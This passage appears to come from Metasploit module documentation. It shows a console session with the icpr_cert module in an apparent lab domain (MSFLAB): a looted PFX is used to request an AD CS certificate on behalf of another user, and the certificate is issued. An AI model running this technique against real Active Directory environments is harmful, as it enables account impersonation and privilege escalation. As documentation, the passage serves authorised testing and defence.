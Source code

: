 ```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/smcintyre/.msf4/loot/20221107154656_default_unknown_windows.ad.cs_831021.pfx
PFX => /home/smcintyre/.msf4/loot/20221107154656_default_unknown_windows.ad.cs_831021.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF MSFLAB\\smcintyre
ON_BEHALF_OF => MSFLAB\smcintyre
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Building certificate request on behalf of MSFLAB\smcintyre
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate UPN: smcintyre@msflab.local
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107154740_default_unknown_windows.ad.cs_567059.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
